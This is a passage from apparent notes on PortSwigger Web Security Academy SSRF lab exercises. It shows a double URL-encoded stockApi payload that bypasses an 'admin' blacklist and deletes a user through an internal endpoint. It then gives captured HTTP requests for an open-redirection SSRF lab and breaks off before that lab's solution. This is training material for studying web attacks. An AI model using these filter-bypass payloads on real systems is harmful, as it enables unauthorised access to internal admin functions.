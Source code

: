 - Using `stockApi=http://127.0.1/%61%64%6d%69%6e` we still encounter "External stock check blocked for security reasons"

- Using `stockApi=http://127.0.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65` we manage to bypass it

Solution: `stockApi=http://127.0.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos`

### Lab: SSRF with filter bypass via open redirection vulnerability

Task: Access admin portal and delete Carlos

More on open redirection over at [hacktricks](https://book.hacktricks.xyz/pentesting-web/open-redirect)

Get product request

```
GET /product?productId=1 HTTP/1.1
Host: 0ac10095033d6727c0f46456007b0058.web-security-academy.net
Cookie: session=hdmugIYAE5PuwvXSd5ajGQcYK8PxGJ9f
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac10095033d6727c0f46456007b0058.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

Next product request

```
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/1.1
Host: 0ac10095033d6727c0f46456007b0058.web-security-academy.net
Cookie: session=hdmugIYAE5PuwvXSd5ajGQcYK8PxGJ9f
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac10095033d6727c0f46456007b0058.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```
